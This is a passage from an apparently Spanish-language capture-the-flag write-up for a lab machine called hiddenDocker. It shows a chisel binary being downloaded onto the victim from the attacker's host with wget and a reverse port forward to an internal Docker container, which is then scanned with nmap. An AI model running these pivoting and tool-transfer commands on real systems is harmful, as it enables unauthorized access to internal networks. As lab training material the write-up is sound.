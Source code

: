 Abre un servidor con **Python**: 
```bash
python3 -m http.server 80
```

Descarga **chisel** en la máquina víctima:
```bash
pepinodemar@hiddendocker:~$ wget http://Tu_IP/chisel
```

En la máquina víctima, vamos a ejecutar **chisel** como cliente para que se conecte al servidor de **chisel** de nuestra máquina:
```bash
./chisel client Tu_IP:1234 R:Puerto_kali_a_Usar:172.17.0.2:80
2025/06/21 21:50:33 client: Connecting to ws://Tu_IP:1234
2025/06/21 21:50:33 client: Connected (Latency 1.457318ms)
```
Le indicamos nuestra IP y el puerto usado en el servidor (`client Tu_IP:1234`), después aplicamos el **Reverse Port Forwarding** (`R:`) para que utilice un puerto de nuestra máquina, que servirá para mostrar la página web del contenedor (`Puerto_kali_a_Usar:172.17.0.2:80`).

Con esto listo, visitemos el **localhost** con el puerto que utilizaste. 

En mi caso, usé el **puerto 3000** de mi máquina para aplicar el **Reverse Port Forwarding** y poder mostrar la página web:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura12.png">
</p>

Excelente, ha funcionado correctamente.

Puedes utilizar cualquier herramienta dirigiéndola a `localhost_o_127.0.0.1:puerto_usado`, por ejemplo, usemos **nmap**:
```bash
nmap -sCV -p 3000 127.0.0.1
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-21 14:01 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000049s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Dockerlabs
|_http-server-header: Apache/2.4.58 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.71 seconds
```